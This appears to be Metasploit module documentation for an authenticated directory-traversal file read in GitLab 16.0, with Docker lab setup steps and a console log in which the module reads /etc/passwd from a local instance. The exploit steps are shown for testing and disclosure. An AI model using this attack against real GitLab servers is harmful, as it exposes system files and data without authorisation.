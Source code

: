 ## Vulnerable Application

GitLab version 16.0 contains a directory traversal for arbitrary file read
as the `gitlab-www` user. This module requires authentication for exploitation.
In order to use this module, a user must be able to create a project and groups.
When exploiting this vulnerability, there is a direct correlation between the traversal
depth, and the depth of groups the vulnerable project is in. The minimum for this seems
to be `5`, but up to `11` have also been observed. An example of this, is if the directory
traversal needs a depth of `11`, a group
and 10 nested child groups, each a sub of the previous, will be created (adding up to `11`).
Visually this looks like:
`Group1->child1->child2->child3->child4->child5->child6->child7->child8->child9->child10`.
If the depth was `5`, a group and 4 nested child groups would be created.
With all these requirements satisfied a dummy file is uploaded, and the full
traversal is then executed. Cleanup is performed by deleting the first group which
cascades to deleting all other objects created.

Tested on a Docker image of GitLab 16.0

### Install

A Docker image is available:

```
sudo docker run --detach \
  --hostname gitlab.example.com \
  --publish 443:443 --publish 80:80 --publish 22:22 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  --shm-size 256m \
gitlab/gitlab-ee:16.0.0-ee.0 
```

To retrieve the default password:

```
sudo docker exec -it gitlab grep 'Password:' /etc/gitlab/initial_root_password[*] Processing gitlab.rb for ERB directives.
resource (gitlab.rb)> use auxiliary/gather/gitlab_authenticated_subgroups_file_read
resource (gitlab.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (gitlab.rb)> set username root
username => root
resource (gitlab.rb)> set password 9ADJtW5hHcrTYKDZ2yeQduyHyWuGUk7b9ikV/njVVC4=
password => 9ADJtW5hHcrTYKDZ2yeQduyHyWuGUk7b9ikV/njVVC4=
resource (gitlab.rb)> set verbose true
verbose => true
resource (gitlab.rb)> exploit
[*] Running module against 127.0.0.1
[+] CSRF Token: dPAr4PTaCuwRU5-j-snq7FfX1V0qh7MoDguHWbUCXCPnwKK3azJXGaF5QxXjRtXkn2_ORLoEt8-NGf59fngrUg
[*] Creating 11 groups
[*] Creating group: GYS2KiLq
[+] CSRF Token: RiloN6gmbtG6kHO55i7i0LFqaN38Bwd_EZCHW2Q9UcLVGeFgN84zJAq6rw__od3YedJzxGyEA5iSgv5_r0cmsw
[*] Creating child group: YzJEBtNX with parent id: 2
[+] CSRF Token: uSAAt3_f4qbQtpxzkyI-vefpmQhh3vxFtee7I1bmVxUqEIng4De_U2CcQMWKrQG1L1GCEfFd-KI29cIHnZwgZA
[*] Creating child group: kl9AGSEx with parent id: 3
[+] CSRF Token: ujc-Maz6zilT6D5fPjiq-s0CtVg9CYm43f71Eiu35I0pB7dmMxKT3OPC4uknt5XyBbquQa2KjV9e7Iw24M2T_A
[*] Creating child group: 9QC5nfTB with parent id: 4
[+] CSRF Token: mkDq3WQ7BdDAfiO_INXVAZ7UOeNPlHXJqx0_0TfqmgwJcGOK-9NYJXBU_wk5WuoJVmwi-t8XcS4oD0b1_JDtfQ
[*] Creating child group: ssHxNX3y with parent id: 5
[+] CSRF Token: -9mNSwNeTCTQ6EmVxDV4yAq1O7TvVbpvctLZJwO0d4Fo6QQcnLYR0WDClSPdukfAwg0grX_WvojxwKADyM4A8A
[*] Creating child group: w7bktrEs with parent id: 6
[+] CSRF Token: bnozD-CZzDp00QJ9Fx9pVEcwg6QO_1iykxrRUg17NIH9SrpYf3GRz8T73ssOkFZcj4iYvZ58XFUQCKh2xgFD8A
[*] Creating child group: uU8ELnQm with parent id: 7
[+] CSRF Token: l57r09_W7GDI5VXVZ5SS0BOatod1-HCZyZj2z3J_Ac8ErmKEQD6xlXjPiWN-G63Y2yKtnuV7dH5Kio_ruQV2vg
[*] Creating child group: o23bujpZ with parent id: 8
[+] CSRF Token: 81sCdo47UC5diIjdq_uquTFpMwzNDnV-mG9RprW-ACdga4shEdMN2-2iVGuydJWx-dEoFV2NcZkbfSiCfsR3Vg
[*] Creating child group: A3ksDjIZ with parent id: 9
[+] CSRF Token: SQAMHEjnus9-5Qk-leIXDxLUTDfpD6tfP5fTqgTodezaMIVL1w_nOs7P1YiMbSgH2mxXLnmMr7i8haqOz5ICnQ
[*] Creating child group: fefAYofd with parent id: 10
[+] CSRF Token: wAeXzAb4bFXWLnys1qQ1HCgXtwPplB9ACCdTliQbWTpTNx6bmRAxoGYEoBrPKwoU4K-sGnkXG6eLNSqy72EuSw
[*] Creating child group: d9ojqIJp with parent id: 11
[+] CSRF Token: Jmtw9u0oBZ-TbViSBqgoNaj5NI5hxeIhKb9SWtR-TL-1W_mhcsBYaiNHhCQfJxc9YEEvl_FG5saqrSt-HwQ7zg
[*] Creating project WELLohsl
[*] Creating a dummy file in project
[*] Executing dir traversal
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

[+] /etc/passwd saved to /root/.msf4/loot/20230602160435_default_127.0.0.1_GitLabfile_635783.txt
[*] Deleting group GYS2KiLq
[*] Auxiliary module execution completed
```
